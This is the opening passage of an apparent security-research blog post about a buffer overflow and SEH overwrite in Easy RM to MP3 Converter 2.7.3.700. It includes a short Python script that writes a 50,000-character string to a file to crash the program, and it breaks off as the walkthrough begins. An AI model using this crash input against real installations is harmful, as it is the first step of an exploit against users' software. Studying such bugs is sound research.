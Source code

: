 ```yaml
---
layout: post
title: Easy RM to MP3 Converter 2.7.3.700 - 'Input' Buffer Overflows
date: 2020-03-26 16:05:00
categories: posts
comments: false
en: true
---
```


# Preamble
After finishing with the [previous](https://whitecr0wz.github.io/posts/Easy-RM-to-MP3-Converter/) vulnerability, i was eager to find out if i could exploit another vulnerable function within this program, which brought us to this post.

# The Bug

Easy RM to MP3 Converter 2.7.3.700 suffers from a vulerability in which it is possible to trigger a Buffer Overflow or a Structured Exception Handling Overwrite when specifying a long string within the parameter "Input" in the "Batch" section.

A small fuzzing script is generated:

```term_session
import struct

buffer = "A" * 50000

f = open ("finding3.txt", "w")
f.write(buffer)
f.close()
```

After this script is run, its contents are copied into the clipboard with Notepad++:
